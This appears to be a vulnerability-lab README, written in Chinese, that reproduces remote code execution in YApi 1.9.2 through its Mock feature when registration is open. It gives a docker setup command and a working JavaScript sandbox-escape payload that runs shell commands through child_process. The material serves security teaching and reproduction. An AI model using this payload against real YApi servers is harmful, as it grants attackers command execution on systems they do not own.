





# YApi开放注册导致RCE

[中文版本(Chinese version)](README.zh-cn.md)

YApi是一个API管理工具。如果注册功能开放，攻击者可以使用Mock功能执行任意代码。

参考链接：

- <https://paper.seebug.org/1639/>
- <https://www.freebuf.com/vuls/279967.html>

## 漏洞环境

执行如下命令启动一个YApi 1.9.2：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到YApi首页。

## 漏洞复现

首先，注册一个用户，并创建项目和接口：





接口中有一个Mock页面可以填写代码，我们填写包含恶意命令的代码：

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()
```



然后，回到“预览”页面可以获得Mock的URL：



打开这个URL，即可查看到命令执行的结果：


